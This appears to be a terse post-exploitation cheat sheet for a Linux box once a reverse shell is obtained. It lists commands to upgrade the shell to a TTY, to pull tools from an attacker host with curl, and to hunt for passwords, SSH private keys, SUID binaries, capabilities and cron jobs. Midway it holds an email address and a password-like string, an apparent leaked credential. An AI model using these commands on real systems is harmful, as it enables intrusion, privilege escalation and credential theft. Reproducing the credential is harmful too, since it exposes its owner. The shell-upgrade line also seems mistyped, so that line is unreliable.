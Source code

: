 
Got a reverse shell with full access to have to write some code dumb shell to full aceess shell

```
python3 -c "__import__('pty').spawn('/bin/bash')"
stty -raw echo;fg
reset.

export TERM=xterm

```


Make a list of commands to download payloads from the server 

```
curl <attacker_IP>/<tool_name> -o <out_name>
```

```
curl 10.50.88.33/nmap -o nmap_sar
```


To see hidden files 
```
cd / && ls -lah
```


```
hostname
uname -a
lscpu
ps aux


whoami
id
sudo -l
cat /etc/passwd
cat /etc/passwd | cut -d : -f 1


grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
locate password | more
find / -name authorized_keys 2> /dev/null 
find / -name id_rsa 2> /dev/null


sudo -l
find / -perm -u=s -type f 2>/dev/null
strace /usr/local/bin/suid-so 2>&1
env
print $PATH
getcap -r / 2>/dev/null

cat /etc/crontab
cat /etc/exports
```


```
s.singh.kv4.2021@gmail.com

4_tJG--A84K"jitD|ft{73}b,a3]wyg9
```


### Check the OS information
```
cat /etc/os-release
```

